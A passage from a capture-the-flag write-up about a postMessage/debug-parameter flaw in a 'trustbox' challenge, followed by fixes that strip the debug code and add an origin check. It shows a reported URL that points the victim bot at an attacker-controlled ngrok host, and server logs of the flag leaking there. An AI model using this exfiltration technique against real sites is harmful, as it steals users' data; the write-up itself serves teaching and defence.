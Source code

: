 ```html
</html>
```

Now all we need to do is to go to the contact page and report the URL
`https://trustbox.hackthe.space/?debug=https://XXXX.ngrok.io` and after
a couple of seconds we see the following lines in the output of our server:

```
2021/05/19 08:44:29 GET /
2021/05/19 08:44:30 POST /leak
2021/05/19 08:44:30 Leaked Body: flag=WUT%7Bd0_1_h4v3_7rU5T_I55U3s%7D
2021/05/19 08:44:30 Leaked Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4430.212 Safari/537.36]
```

And after we url decode the flag (for example with [this website](https://www.urldecoder.org/))
we are done.

## Solution

First, the debug code from the `https://trustbox.hackthe.space/static/trustbox-client.js`
should be removed so that the load event-listener looks like that:

```javascript
// File: trustbox-client.js

[...]

window.addEventListener("load", function() {
    const dropbox = document.getElementById("dropbox");
    const src = "store";
    const section = document.getElementsByTagName("section")[0];
    const iframe = document.createElement("iframe");
    iframe.setAttribute("src", src);
    iframe.setAttribute("width", 0);
    iframe.setAttribute("height", 0);
    section.appendChild(iframe);

    dropbox.addEventListener("dragenter", dragenter, false);
    dropbox.addEventListener("dragover", dragover, false);
    dropbox.addEventListener("drop", drop, false);
    window.addEventListener('message', handleMessage, false);
});
```

Next, the script in `https://trustbox.hackthe.space/static/trustbox-server.js`
should only create new blobURL objects if the origin of the event emitter is 
equal to its own:

```javascript
function handlerMessage(event) {
    if (event.origin !== window.origin) return;

    let message = event.data;
    if (message.action === "add") {
        event.source.postMessage({name: message.file.name, url: URL.createObjectURL(message.file)}, window.origin);
    } else {
        // TODO: implement file removal
    }

}

window.addEventListener('message', handlerMessage, false);
```
